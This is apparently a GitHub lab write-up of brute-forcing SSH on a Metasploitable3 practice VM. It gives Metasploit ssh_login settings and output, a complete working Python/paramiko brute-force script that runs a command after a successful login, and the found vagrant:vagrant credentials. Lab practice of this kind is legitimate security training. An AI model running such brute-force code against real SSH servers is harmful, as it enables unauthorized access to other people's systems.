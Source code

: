 Phase 1: SSH Service Compromise
Overview
This phase demonstrates SSH brute force attacks against Metasploitable3 using:

Metasploit Framework (ssh_login module)
Custom Python brute force script
Successfully identified vulnerable credentials:
vagrant:vagrant
Attack Methodologies
1. Metasploit Brute Force Attack
Configuration:
bash
use auxiliary/scanner/ssh/ssh_login
set RHOST 192.168.56.102
set RPORT 22
set USER_FILE /absolute/path/usernames.txt
set PASS_FILE /absolute/path/passwords.txt
set THREADS 3
run
Output:
Code
[*] 192.168.56.102:22 - Starting brute force
[*] Scanned 1 of 1 hosts (100% complete)
[*] Auxiliary module execution completed
Key Findings:
Required absolute paths for credential files
Case-sensitive commands (e.g., set, not SET)
Full scan of the target system successfully completed
2. Custom Python Brute Force Script
Script: compromise.py
Python
import paramiko
import time

TARGET_IP = "192.168.56.103"
PORT = 22
USERNAME_FILE = "username.stxt"
PASSWORD_FILE = "password.stxt"
COMMAND_TO_RUN = "ip a"

def attempt_login(hostname, port, username, password):
    try:
        client = paramiko.SSHClient()
        client.set_missing_host_key_policy(paramiko.AutoAddPolicy())
        client.connect(hostname=hostname, port=port, username=username, password=password, timeout=5)
        print(f"[+] Successfully logged in as {username}:{password} on {hostname}")
        return client
    except paramiko.AuthenticationException:
        print(f"[-] Login failed for {username}:{password} on {hostname}")
    except paramiko.SSHException as e:
        print(f"[-] SSH error connecting to {hostname}: {e}")
    except Exception as e:
        print(f"[-] An error occurred: {e}")
    return None

def execute_command(client, command):
    try:
        stdin, stdout, stderr = client.exec_command(command)
        output = stdout.read().decode().strip()
        error = stderr.read().decode().strip()
        if output:
            print(f"[+] Command executed successfully. Output:\n{output}")
        if error:
            print(f"[-] Error executing command:\n{error}")
    except Exception as e:
        print(f"[-] Error executing command: {e}")

def main():
    usernames = []
    passwords = []

    try:
        with open(USERNAME_FILE, 'r') as f:
            usernames = [line.strip() for line in f]
    except FileNotFoundError:
        print(f"[-] Error: {USERNAME_FILE} not found.")
        return

    try:
        with open(PASSWORD_FILE, 'r') as f:
            passwords = [line.strip() for line in f]
    except FileNotFoundError:
        print(f"[-] Error: {PASSWORD_FILE} not found.")
        return

    for username in usernames:
        for password in passwords:
            print(f"[+] Trying {username}:{password} on {TARGET_IP}:{PORT}")
            ssh_client = attempt_login(TARGET_IP, PORT, username, password)
            if ssh_client:
                print("[+] Proof of Concept:")
                execute_command(ssh_client, COMMAND_TO_RUN)
                ssh_client.close()
                print("[+] Connection closed.")
                return

if __name__ == "__main__":
    main()
Execution:
bash
python3 compromise.py
Output:
Code
[+] Successfully logged in as vagrant:vagrant
Discovered Credentials
Username: vagrant
Password: vagrant
Requirements
Metasploit Framework (v6.3+)
Python 3.8+
Paramiko (Install via pip install paramiko)
